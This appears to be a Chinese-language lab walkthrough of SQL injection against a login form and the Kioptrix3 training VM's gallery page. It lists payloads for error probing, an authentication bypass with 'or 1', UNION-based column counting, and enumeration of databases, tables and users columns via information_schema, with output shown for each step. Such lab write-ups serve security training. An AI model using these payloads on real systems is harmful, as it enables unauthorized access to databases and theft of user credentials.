 <1> 单引号。

```plain
email=admin'&pass=1234&submit=Login&submitted=TRUE （报错：Query: SELECT * FROM users WHERE email='admin'' AND pass='356a192b7913b04c54574d18c28d46e6395428ab' AND active IS NULL

得出结论：sql语句大概是select * from users where email='' and pass='' and ?。
```

<2>尝试构建使得不报错。

```plain
#注释掉后面的。
email=admin' #（不报错）
```

<3>判断能否恶意修改。

```plain
email=admin' or '1'#  (登录成功)
得出结论：sql语句能被恶意修改带入数据库执行
```

<4> 枚举，判断数据库查了几列数据用于后面union拿数据。

```plain
email=admin' union select 11,22,33,44,55,66,77,88 #
email=admin' union select 11,22,33,user(),55,66,77,88 #
(回显结果：
database() ch16，
user()  root@localhost)
@@version   5.1.54
```

<5>查库

```plain
email=admin' union select 11,22,33,group_concat(schema_name),55,66,77,88 from information_schema.schemata#
http://kioptrix3.com/gallery/gallery.php?id=666 union select 11,22,group_concat(schema_name),44,55,66 from information_schema.schemata#
（回显结果： information_schema,ch16,mysql）
```

<6>查表

```plain
email=admin' union select 11,22,33,group_concat(TABLE_NAME),55,66,77,88 from information_schema.TABLES where TABLE_SCHEMA=database()#
（回显结果：users）
```

<7>查users表的字段

```plain
?id=666 union select 11,22,group_concat(column_name),44,55,66 from information_schema.COLUMNS where TABLE_SCHEMA=database() and TABLE_NAME='gallarific_users' #
(回显结果：user_id,first_name,last_name,email,pass,user_level,active,registration_date)
```
